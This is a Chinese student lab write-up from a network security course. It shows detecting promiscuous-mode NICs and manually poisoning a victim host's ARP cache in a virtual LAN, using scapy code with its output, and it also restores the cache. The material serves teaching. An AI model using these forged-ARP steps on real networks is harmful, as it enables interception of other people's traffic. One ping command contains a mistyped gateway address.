# 网络监听实验

## 网络拓扑



如图所示网络中的节点基本信息如下：

+ 网关
  + 08:00:27:0b:6d:2c / en0s9
  + 172.16.111.1
+ 攻击者主机
  + 08:00:27:e9:59:4f / eth2    
  + 172.16.111.142
+ 受害者主机
  + 08:00:27:d4:7e:b8 / eth0   
  + 172.16.111.107

## 实验准备

**安装 scapy**

在攻击者主机上提前安装好 scapy。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```




## 实验一：检测局域网中的异常终端

+ 在受害者主机检查网卡的 **[混杂模式]** 是否启用

  ```bash
  ip link show eth0
  
  #2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
  #    link/ether 08:00:27:d4:7e:b8 brd ff:ff:ff:ff:ff:ff
  ```

  

+ 监听

  + 在攻击者主机上开启 scapy

    ```bash
    sudo scapy
    ```

  + 在 scapy 的交互式终端输入以下代码回车执行

    ```bash
    pkt = promiscping("172.16.111.107")
    ```

    

  + ```bash
    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set eth0 promisc on
    
    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show eth0
    # 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #    link/ether 08:00:27:d4:7e:b8 brd ff:ff:ff:ff:ff:ff
    ```

    

  + ```bash
    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.107")
    # Begin emission:
    # Finished sending 1 packets.
    # *
    # Received 1 packets, got 1 answers, remaining 0 packets
    #   08:00:27:d4:7e:b8 PcsCompu 172.16.111.107
    ```

    

  + 在受害者主机手动关闭该网卡的「混杂模式」

    ```bash
    sudo ip link set eth0 promisc off
    ```

    


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# ###[ Ethernet ]### 
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:e9:59:4f
#   type= ARP
# ###[ ARP ]### 
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:e9:59:4f
#      psrc= 172.16.111.142
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```



+ 发送 ARP 广播请求

  ```python
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2,iface="eth2")
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```

+ 伪造网关的 ARP 响应包

  ```bash
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.107
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:e9:59:4f")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  send(arpspoofed)
  ```

  

+ 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  # 172.16.111.142 dev eth0 lladdr 08:00:27:e9:59:4f STALE 
  # 172.16.111.1 dev eth0 lladdr 08:00:27:e9:59:4f STALE 
  ```

  

+ 恢复受害者主机的 ARP 缓存记录

  回到攻击者主机上的 scapy 交互式终端继续执行命令

  ```python
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:0b:6d:2c", pdst="172.16.111.107", hwdst="08:00:27:d4:7e:b8")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  

  在受害者主机上尝试 ping 网关

  ```bash
  ping 172.111.16.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  


## 实验小结

+ 在攻击者主机开启 `scapy` 时注意权限 `sudo` ，否则后续会报错。

  

+ 实验二中**发送 ARP 广播请求**后结果如下：

  ```python
  recved = srp(arpbroadcast, timeout=2)
  Begin emission:
  Finished sending 1 packets.
  
  Received 0 packets, got 0 answers, remaining 1 packets
  ```

  解决办法：**scapy 指定网卡发送数据包**

  ```python
  recved = srp(arpbroadcast, timeout=2,iface="eth2")
  ```

  


## 参考资料

+ [在线教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
+ [经验分享：解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)

